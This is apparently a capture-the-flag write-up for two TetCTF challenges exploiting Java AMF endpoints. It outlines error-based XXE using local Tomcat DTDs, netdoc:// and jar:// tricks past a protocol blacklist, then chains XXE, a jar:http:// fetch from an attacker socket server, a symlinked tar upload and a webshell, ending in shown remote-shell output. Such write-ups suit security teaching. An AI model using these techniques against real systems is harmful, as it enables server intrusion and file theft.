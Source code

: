 # AMF1

- in this challenge, it's about XXE with some specific techniques on Java

- the blacklist is: `file|ftp|http|https|data|class|bash|logs|log|conf|etc|session|proc|root|history`

- so you can't make a outbound request to get your remote DTD, this time we need a local DTD to archive XXE. Have a quick look on this awesome blog: https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/

- with the trick: `jar:/file://[some_zip_file]!/[dtd_inside_the_archive]`, we can make use of local DTD in some jars file of Tomcat
- Reference: https://github.com/GoSecure/dtd-finder/blob/master/list/xxe_payloads_jars.md

- Java has `netdoc://` protocol, which is same as `file://`

- In the context of AMF, it will catch the Exception while handling the xml, and through it as HTTP Response, we can make use of this to archive XXE error-based
    - For ex: 
        - `_://` => no protocol exception

- Final Exploit
    - using `jar://` to load dtd inside some Tomcat jars
    - using `netdoc://` instead of `file://`, `netdoc://` or `file://` can also listing the directory (use to find the flag)
    - amf context exif error message via HTTP Respose + `_://` => error-based XXE

            python amf_xxe.py "http://139.162.40.239:1337/tetctf/messagebroker/amf" foo tetctf_v1


# AMF2

- in the second challenge, we exploit another bug on AMF, trigger `readExternal()` or some public `setters`, this allow us to trigger the `setBackupFile` of `TetCTFUtils`
- `TetCTFUtils.setBackupFile()` execute a `tar` command on arbitrary file on the system, so we need to create and upload a tar symlink file to server with `UploadServlet`
- Another clever way, we can make use of XXE with `jar:http://host/a.zip!/a.txt` with a custom socket server to make the server save the tmp file, and hang the connection to make the tmp file not deleted for a while, then use the xxe bug with `file://` to listing the directory to view the file name of tmp file, and finally, trigger the setter
- The last step: when we have created the symlink to the webroot, we just need to write our shell to the file we symlink to our webshell, so you can pass all the filter in the `UploadServlet`

## on your server run: 
    python jar_xxe_server.py

- edit the content of payload `trigger_jar_xxe` in `amf_xxe.py` to point to your socket server

## python tetctf_exp.py 


    [+] trigger_amf_xxe etc_hosts
    etc_hosts output: 
    127.0.0.1	localhost
    ::1	localhost ip6-localhost ip6-loopback
    fe00::0	ip6-localnet
    ff00::0	ip6-mcastprefix
    ff02::1	ip6-allnodes
    ff02::2	ip6-allrouters
    172.17.0.3	02688b965fbd (No such file or directory)...Bwlb.....
    [+] Done
    [+] trigger_amf_xxe trigger_jar_xxe
    [+] trigger_amf_xxe get_tmp_filename
    get_tmp_filename output: 
    jar_cache7343514775749524690.tmp
    safeToDelete.tmp (No such file or directory)...Bwlb.2...
    [+] Done
    [+] tmp filename: jar_cache7343514775749524690.tmp
    [+] generate_amf_setter_payload
    [+] trigger_setter
    AppendToGatewayUrl,;jsessionid=A9A1197B578F257C267FABA24A88FF87	/onStatus 
    C	coderootCausedetailsmessage#Server.ProcessinThe supplied destination id is not registered with any service.
    [+] upload_via_symlink
    { "serviceResponse":"true", "serviceError":null, "serviceName":"File Upload", "opName":"fileUpload" }
    [+] done, enjoy shell
    /peterjson@remote_shell/~.~
    id

    uid=1000(service) gid=1000(service) groups=1000(service)


    None
    /peterjson@remote_shell/~.~
    whoami       

    service



